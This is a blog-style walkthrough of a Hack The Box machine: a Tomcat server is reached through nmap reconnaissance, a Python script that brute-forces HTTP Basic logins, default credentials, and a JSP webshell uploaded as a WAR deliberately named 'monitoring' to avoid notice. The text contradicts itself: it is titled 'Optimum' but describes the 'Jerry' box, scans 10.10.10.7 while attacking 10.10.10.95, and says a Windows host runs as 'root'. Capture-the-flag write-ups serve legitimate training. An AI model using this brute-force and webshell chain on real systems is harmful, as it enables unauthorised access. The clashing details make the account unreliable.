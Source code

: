 ```yaml
---
layout: post
title: HTB Optimum Walkthrough
categories: security
---
```


## Summary

It continues to be catchups time for me, as I write up retired HTB boxes that I did a while back. This time round, it's Optimum; an easy Windows box by `ch4p`.

## External Reconnaisance

### NMap Port Scan

As we always do with HTB boxes, we will begin with some NMap reconnaisance. We first conduct a scan against the top 1000 ports, with scripts enabled:

`sudo nmap -v -sC -sS -oX nmap-10-10-10-7-scripted.xml 10.10.10.7`,

and follow that up with a non-script scan of all 65535 ports:

`nmap -v -p- -oX nmap-10-10-10-7-full.xml 10.10.10.7`

We find the following ports are open:

| port      | state | service          |
| --------- | ----- | ---------------- |
| 8080/tcp  | open  |    http-proxy    |

The script scan grabs the banner info from the server, showing that it is running version 7.0.88 of Apache Tomcat.

### Web Reconnaisance

Navigating to `10.10.10.95:8080` in our browser shows us a default-looking Tomcat welcome screen. This is interesting, since it indicates that the site is incomplete, and may have been put up in a rush. If the devs didn't bother to change the landing page, what else did they not bother to change?

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-welcome.png" alt="Tomcat default welcome screen" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-welcome.png)

Trying to navigate away to the server status page, the manager app, or the host manager, pops up an HTTP Basic authentication prompt. Not much else we can do from here.

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-auth.png" alt="Tomcat authentication prompt" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-auth.png)

A quick search online for CVEs against this version of Tomcat reveals `https://www.cvedetails.com/cve/CVE-2019-0232/`: an RCE *with* a Metasploit module!

## Exploitation

So let's try to exploit this vulnerability. We boot up Metasploit, choose the appropriate exploit module

`use exploit/windows/http/tomcat_cgi_cmdlineargs`,

set the target

`set rhosts 10.10.10.95`,

and `run` the exploit...

And it's not exploitable. Darn. 

Not seeing any other immediate options, let's see if we can brute-force the HTTP Basic login. This isn't as much of a shot in the dark as you may think; we already know that the site has not been configured particularly well (see above), so maybe they've kept a default password.

We can quickly put together a python script which can run through a list of credentials, and try each in turn against an HTTP Basic authentication endpoint:

```python
import requests
import argparse

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Does a basic bruteforce, using HTTP Basic Authentication, against a web endpoint.")
    parser.add_argument("credslist", type=str, help="A list of credentials, one set per line, in format [username]:[password]")
    parser.add_argument("target", type=str, help="The target URL to authenticate against")

    args = parser.parse_args()
    success = False

    with open(args.credslist) as f:
        for line in f:
            creds = line.strip("\n").split(":")
            response = requests.get(args.target, auth=(creds[0], creds[1]))

            if response.status_code == 200:
                print("[+] Valid credentials: {}:{}".format(creds[0], creds[1]))
                success = True
                break

    if success != True:
        print("[-] No valid credentials found.")
```

We then run this by: `python3 http-basic-auth-bruteforce.py /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html`. Leaving it a short time returns us the credentials: `tomcat:s3cret`. Very secure(!)

Using these credentials, we log in to the Web Application Manager interface. This interface allows us to upload WAR files to be run on the server. Juicy.

[<img src="{{ site.baseurl }}/images/security/jerry/tomcat-app-man.png" alt="Tomcat Web App Manager" style="width: 400px;"/>]({{ site.baseurl }}/images/security/jerry/tomcat-app-man.png)

Quickly hopping over to Github to grab a JSP webshell (I plan to code up one of my own at some point, but hey ho): `https://github.com/tennc/webshell/blob/master/jsp/jspbrowser/Browser.jsp`. We then compile this: `jar -cvf monitoring.war index.jsp`; we choose the name so as to fly under the radar a little.

Uploading this gives us access to the filesystem, from where we can apparently view files owned by `root`, because I guess they're running Tomcat as `root`. No privesc needed!

## Conclusion

Hope you enjoyed this walkthrough and the box; quite a fun little easy box. Stay tuned for more walkthroughs, as I start to catch up with the backlog of boxes I want to write up.

As always, you can head to my GitHub to see [a bit of a more "professional report"-style writeup](https://github.com/cybersecmoo/writeups/blob/jerry/htb/boxes/jerry.md), if that's your bag.

Thanks for reading!

